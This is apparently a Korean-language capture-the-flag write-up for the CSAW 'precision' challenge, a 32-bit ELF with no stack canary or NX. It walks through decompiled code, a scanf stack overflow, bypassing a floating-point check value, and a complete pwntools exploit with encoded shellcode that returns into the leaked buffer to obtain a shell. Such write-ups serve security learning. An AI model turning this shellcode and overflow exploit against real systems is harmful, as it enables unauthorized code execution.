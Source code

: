 ============================================================================================================
[csaw] precision
============================================================================================================


Prior information
============================================================================================================

프로그램은 스택 카나리와 nx는 안걸려 있고, 문제에서 버퍼 위치를 찍어 줍니다. 

.. code-block:: console

    $ file ./precision   
    ./precision: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), 
    dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]
    =929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped

    $ ./checksec.sh --file precision
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision

    $ ./precision
    Buff: 0xff9f7718
    joizel
    Got joizel

|

Source Analysis
============================================================================================================

먼저 IDA Hexray를 이용하여 해당 프로그램의 소스를 확인해보면 다음과 같습니다.

.. code-block:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        int v4; // [sp+18h] [bp-88h]@1
        double v5; // [sp+98h] [bp-8h]@1

        v5 = 64.33333;
        setvbuf(stdout, 0, 2, 0);
        printf("Buff: %p\n", &v4);
        __isoc99_scanf("%s", &v4);  // overflow
        if ( 64.33333 != v5 )
        {
            puts("Nope");
            exit(1);
        }
        return printf(str, &v4);
    }

|

Segmentation fault
============================================================================================================

__isoc99_scanf에서 128바이트 이상 값이 입력될 경우 버퍼 오버플로우가 발생되는 것을 확인할 수 있습니다.

.. code-block:: console

    $ python -c 'print "A"*127' | ./precision
    Buff: 0xff96b918
    Got AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAA

    $ python -c 'print "A"*128' | ./precision
    Buff: 0xfff6c378
    Nope


중간에 v5값만 맞춰서 넣어 주면 리턴 주소값을 변경할 수 있습니다.

v5값은 IDA Hexray에서 dbl(floating point data) 형식으로 64.33333이 정의 되어 있는데 해당 값을 dword 형식으로 변환하면 해당 값이 0x475a31a5 40501555 인것을 확인할 수 있습니다. 

.. image:: ../_images/pwn-01.png
    :align: center

|

exploit
============================================================================================================

공격 코드는 다음과 같습니다.

.. code-block:: python

    from pwn import *

    #r = remote("54.173.98.115", 1259)
    r = process("./precision")
    recv = r.recvline()

    buf_addr = int(recv.split(" ")[1][2:], 16)
    print "%d [%s]" % (buf_addr, hex(buf_addr))

    # len(shellcode) = 74
    shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80
    \x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e
    \x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38
    \xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36
    \x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87" 

    # 128(dummy + shellcode) + v5 + 12(dummy) + ret(buf_addr)
    # 
    r.sendline("A"*(128 - len(shellcode)) + shellcode + p32(0x475a31a5) 
    + p32(0x40501555) + "EEEECCCCDDDD" + p32(buf_addr))
    #r.recv()
    r.interactive() 

    #r.sendline("cat flag.txt")
    print r.recv()

    #r.sendline("cat /lib32/libc.so.6")

    #x = ""
    #while r.can_recv(5):
        #x += r.recv()

    #with open("libc", "wb") as f:
        #f.write(x)


해당 공격 코드 실행 결과는 아래와 같다.

.. code-block:: console

    $ python exploit.py 

    [+] Started program './precision'
    4294231000 [0xfff4c3d8]
    [*] Switching to interactive mode
    $ 
    
